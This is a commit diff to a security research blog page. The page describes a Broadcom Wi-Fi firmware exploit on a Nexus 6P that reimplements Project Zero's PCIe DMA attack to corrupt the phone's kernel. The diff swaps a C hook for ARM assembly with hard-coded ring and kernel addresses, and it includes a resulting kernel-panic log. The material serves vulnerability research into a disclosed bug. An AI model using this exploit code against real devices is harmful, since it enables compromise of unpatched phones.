

Before and after one commit to boosterok/blog, a plain HTML site: page broadpwn2/index.html in a window 1280 px wide. Shown: the part 1943-2800 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
broadpwn2: implement simpler first Project Zero DMA attack

```diff
--- a/broadpwn2/index.html
+++ b/broadpwn2/index.html
@@ -60,7 +60,7 @@ footer {
 <li>An implementation of <a href="https://googleprojectzero.blogspot.ca/2017/04/over-air-exploiting-broadcoms-wi-fi_11.html">Project Zero's DMA engine hook</a> to corrupt the kernel in the main system memory over PCIE</li>
 </ul>
 
-<p>The first part is very reliable - I can always get code execution; the second part only worked once and stopped working afterwards. I don't know why.</p>
+<p>The first part is very reliable - I can always get code execution; the second part only works sometimes, since we're pointing the Wi-Fi packet DMA into main memory, and so success depends on what packets are DMAed.</p>
 
 <h2>Code execution on the Wi-Fi chip</h2>
 
@@ -176,33 +176,35 @@ typedef struct wlc_hrt_to {
 
 <p>Let's implement <a href="https://googleprojectzero.blogspot.ca/2017/04/over-air-exploiting-broadcoms-wi-fi_11.html">Project Zero's DMA attack</a>. The TLDR of their approach is that recent phones connect Wi-Fi chipsets via PCI Express, which allows arbitrary memory writes and reads through DMA. By manipulating the list of DMA buffers on the Wi-Fi chip, an attacker can write any information into main memory, thus getting code execution on the main CPU.</p>
 
-<p>To implement their attack, we use our write primitive to patch the beginning of dma64_txfast to jump into the code in our payload.</p>
-
-<p>Per Project Zero's approach, the exploit code checks if the DMA engine is the "D2H" engine (which does Device-To-Host writes), and, if so, iterate through all DMA descriptors to point them into the Android kernel's code. Since we don't control the data being DMAed, this will only cause a crash on the main CPU, but this is good enough for a proof of concept.</p>
-
-<p>I wrote the <a href="code/shellcode.c">payload in C</a> first:</p>
+<p>I'm using Project Zero's first DMA attack, which simply sets the D2H_MSGRING_TX_COMPLETE ring's ringaddr to point into the kernel. I dumped the address of the ring structure using Project Zero's <a href="https://bugs.chromium.org/p/project-zero/issues/detail?id=1046">dump_pci.py</a> script, and then wrote a hook that patches the target address to 0x248488 in the main CPU's physical memory (which seems to correspond to critical code in the kernel I'm running), and also patches out the WME IE bug that we exploited in the first place (so that we don't accidentally run the exploit twice). Here's the hook:</p>
 
 <pre>
-void dma64_txfast_hook(dma_info_t *di, void *p0, bool commit) {
-	*((unsigned short*)wlc_bss_parse_wme_ie_addr) = 0x4770; // patch out the bug to prevent further damage
-	uint* p = (uint*)(&di->name);
-	if (*p != 0x00483244) return; // D2H
-	dma64dd_t *txd_64 = di->dregs.d64_u.txd_64;
-	for (;;) {
-		if (txd_64->addrlow == 0xdeadbeef) break;
-		txd_64->addrlow = overwrite_addr_low;
-		txd_64->addrhigh = overwrite_addr_high;
-		txd_64++;
-	}
-}
+.syntax unified
+.thumb
+hook_entry: // 0x90
+	push {r0-r3,r4-r9,lr}		// 0x217090
+	bl fullhook			// 0x217094
+	pop {r0-r3}			// 0x217098
+	.word 0xbaf9f774		// 0x21709a: branch to original txfast
+fullhook:
+	ldr	r3, patchoutaddr	// 0x21709e
+	ldr	r2, patchaddr		// 0x2170a0
+	str	r2, [r3]		// 0x2180a2
+	ldr	r2, ringaddr		// 0x2180a4
+	ldr	r3, valuewritten	// 0x2180a6
+	str	r3, [r2]		// 0x2180a8
+	bx	lr			// 0x2180aa
+valuewritten:
+	.word 0x00248488		// 0x2180ac physical address on the host side; seems to crash things...
+patchoutaddr:
+	.word 0x1b8ad0			// 0x2180b0 function to patch
+patchaddr:
+	.word 0x47702000		// 0x2180b4 mov r0, #0; bx lr note firmware overwrites byte 0 with a 0; it's fine
+ringaddr:
+	.word 0x002397C4		// 0x2180b8 ringaddr of D2H_MSGRING_TX_COMPLETE dumped with Project Zero's dump_pci.py
 </pre>
 
-<p>Then compiled it to assembly code:</p>
-<pre>arm-linux-androideabi-gcc -S -Os -mthumb -mcpu=cortex-a9 shellcode.c</pre>
-
-<p>And <a href="code/shellcode_edited2.s">modified the assembly</a> to fit within the payload by splitting it into multiple parts.</p>
-
-<p>I tried to avoid overwriting the heap metadata to avoid instability on the Wi-Fi chip, but in the end I ran out of space in the payload, went "screw it" and overwrote the heap metadata for the last chunk. It doesn't seem to be a problem.</p>
+<p>This is then assembled and placed into the payload. The next time dma64_txfast is called, our code will patch the DMA ring, and the next Wi-Fi packet to be processed will overwrite part of the main CPU's kernel, crashing it.</p>
 
 <p>The final payload can be seen <a href="code/sploit.txt">here</a>, along with <a href="code/encode_t2_branch.py">other</a> <a href="code/removecomments.py">useful</a> <a href="code/startit.sh">scripts</a>.</p>
 
@@ -210,7 +212,9 @@ void dma64_txfast_hook(dma_info_t *di, void *p0, bool commit) {
 
 <p>Experimental setup: computer same as before (Ubuntu 14.04, hostapd 2.6, Intel 7260 integrated Wi-Fi). Phone same as before: Google/Huawei Nexus 6P: running the latest firmware (N2G48B), but modified with the vulnerable June Broadcom firmware for testing this bug, and with a custom kernel for rooting. Since the bug is in the Wi-Fi firmware only, this should give the same result as an unupdated stock Nexus 6P.</p>
 
-<p>When the device connected to the network, it froze, and then after a few seconds it rebooted. The console-ramoops file (which contains the kernel log from the previous boot) shows a kernel panic from an invalid instruction exception in the kernel. (I tried to overwrite sys_nanosleep, but missed. It seemed to break something at least.)</p>
+<p>When the device connects to the network, it froze, and then after a few seconds it rebooted. The console-ramoops file (which contains the kernel log from the previous boot) shows a kernel panic from an invalid instruction exception in the kernel. (I tried to overwrite sys_nanosleep, but missed. It seemed to break something at least.)</p>
+
+<p>The crash isn't very reliable (the code exec on the wi-fi chip seems to be reliable, but getting the PCIE DMA to cooperate isn't.) When it works, the crash log shows this:</p>
 
 <pre>
 [ 5887.413947] CFG80211-ERROR) wl_cfg80211_connect : Connecting to (MAC address) with channel (1) ssid (Network)
@@ -275,7 +279,7 @@ r:kernel:s0 tclass=system permissive=1
 <p>There's a few issues that prevents this proof-of-concept from being useful.</p>
 
 <ul>
-<li>Project Zero's proof of concept, implemented here, DMAs random network packets into main memory; can we control what's written so that we can modify the kernel instead of just corrupting and crashing it?</li>
+<li>Project Zero's proof of concept, implemented here, DMAs random network packets into main memory; I was unable to implement their more advanced dma64_txfast hook (which gives more control over the address to write. It worked once, and only once, and I can't reproduce it.) can we control what's written so that we can modify the kernel instead of just corrupting and crashing it?</li>
 
 <li>Currently, the Wi-Fi stops working if I trigger the bug, even if I use a payload that doesn't crash the device or the Wi-Fi chip. It just fails to finish connecting to network. An attacker will need to keep the Wi-Fi working to avoid user suspicion and to exfiltrate data.</li>
 
@@ -301,7 +305,7 @@ $ adb shell
 
 <hr/>
 
-<footer>Zhuowei Zhang (<a href="https://twitter.com/zhuowei">@zhuowei</a>), 2017-07-12</footer>
+<footer>Zhuowei Zhang (<a href="https://twitter.com/zhuowei">@zhuowei</a>), 2017-07-13</footer>
 
 </body>
 
```
Also changed, not shown: broadpwn2/code/sploit.txt.
